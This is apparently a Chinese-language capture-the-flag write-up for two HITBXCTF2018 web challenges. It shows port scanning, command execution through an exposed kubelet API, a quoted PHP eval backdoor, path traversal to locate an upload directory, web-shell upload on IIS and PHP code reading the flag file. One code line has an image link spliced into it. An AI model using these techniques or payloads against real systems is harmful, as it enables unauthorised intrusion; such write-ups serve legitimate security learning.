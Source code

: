 ```yaml
---
title: HITBXCTF2018-Baby baby && upload
date: 2018-04-18 20:43:33
tags:
	- CTF
	- Writeup
---
```

前几天在HITBXCTF划了波水，就做出了几个水题，不过题目考察的东西还是挺新的，写个Writeup记一下。
<!-- more -->
### 1. Web-Baby baby

#### 1.1 题目要求
```
This is a pentest challenge, target 47.75.146.42
http://47.75.146.42
```



### 1.2 解题步骤

直接访问没啥有价值的东西，使用Nmap扫描端口

命令：
```
nmap -v -sV -p- 47.75.146.42
```

结果
```
PORT      STATE  SERVICE       VERSION
22/tcp    open   ssh           OpenSSH 7.4 (protocol 2.0)
80/tcp    open   http          nginx 1.12.2
443/tcp   closed https
2333/tcp  closed unknown
3389/tcp  closed ms-wbt-server
8009/tcp  closed ajp13
9999/tcp  open   http          nginx 1.12.2
10250/tcp open   ssl/unknown
```

大致测了测，9999端口不解析php，
直接访问：`http://47.75.146.42:9999/index.php`

下载`index.php`
```
This is a pentest challenge, open your mind!
<img style="width: 300px;" src="jd.png" alt="the picture is unrelated to this challenge, just a advertisement" />

<?php
    eval($__POST["backdoor"]);
?>
```
没啥用，查10250端口,找到一篇博客，上面写得很详细，直接利用。

```
https://ricterz.me/posts/Security%20Issues%20of%20Kubelet%20HTTP%28s%29%20Server
```

通过 /runningpods 获取正在运行的 Pod 列表：
```
https://47.75.146.42:10250/runningpods
```

![](http://osn75zd5c.bkt.clouddn.com/HITBCTF2018-Web-baby-1.png)

然后有命令执行漏洞，可以在容器里执行命令。一个个找flag

![](http://osn75zd5c.bkt.clouddn.com/HITBCTF2018-Web-baby-2.png)

在根目录发现flag.txt,直接读取

![](http://osn75zd5c.bkt.clouddn.com/HITBCTF2018-Web-baby-3.png)

HITB{KKKKKKKKKKKKKKKKKKKKKKKKK}


### 2. Web-Upload

#### 2.1 题目要求
```
Get shell !
http://47.90.97.18:9999
```
题目环境是Windows IIS7.0+php
直接右键查看源代码，发现提示。

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-1.png)
```
<!--pic.php?filename=default.jpg-->
```
访问一下，会返回default.jpg的长和宽


随便找个文件上传，回显了一个文件名。

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-2.png)

令filename=返回的文件名，会给出上传图片的长和宽。

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-3.png)

看样子后台用函数getimagesize()来处理文件，但是PHP中getimagesize()函数有漏洞，这和前几天dedecms爆后台目录的原理一眼，详情
```
http://www.freebuf.com/column/164698.html
```

然后可以借助pic.php的功能来穷举出上传文件的目录，由于爆破的人太多，使用burp单线程进行爆破，如图，这样就知道目录第一个字符是8,依次往后一位位找。

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-4.png)

最后就能得到文件上传的目录
```
?filename=..\..\..\..\..\..\inetpub\wwwroot\87194f13726af7cee27ba2cfe97b60df\1523619718.png
```
![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-5.png)

然后就可以直接上传shell。

> 参考链接：https://thief.one/2016/09/22/%E4%B8%8A%E4%BC%A0%E6%9C%A8%E9%A9%AC%E5%A7%BF%E5%8A%BF%E6%B1%87%E6%80%BB-%E6%AC%A2%E8%BF%8E%E8%A1%A5%E5%85%85/

利用Windows系统特性，构造：

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-6.png)

直接上传后，访问，成功解析。

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-7.png)

在phpinofo()中查看被禁用的函数
```
assert,passthru,exec,system,chroot,scandir,chgrp,chown,shell_exec,proc_open,proc_get_status,ini_alter,ini_alter,ini_restore,dl,pfsockopen,openlog,syslog,readlink,symlink,popepassthru,stream_socket_server,fsocket,fsockopen
```
构造代码列出目录文件。
```
function listDirFiles($DirPath){ 
    if($dir = opendir($DirPath)){ 
         while(($file = readdir($dir))!== false){ 
                if(!is_dir($DirPath.$file)) 
                { 
                    echo "filename: $file<br />"; 
                } 
         } 
    } 
}
listDirFiles('c:/Inetpub/wwwroot/');
```
利用hackbar进行URL编码后上传。发现有flag.php

![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-8.png)

再构造代码
```
<?php
  $filename = "c:/Inetpub/wwwroot/flag.php";
  $handle = fopen($filename, "r");
  $contents = fread($h![image](https://note.youdao.com/favicon.ico)andle, filesize($filename));
  echo $contents;
  fclose($handle);
?>
```
![image](http://osn75zd5c.bkt.clouddn.com/HITBXCTF2018-Web-upload-9.png)

成功获取flag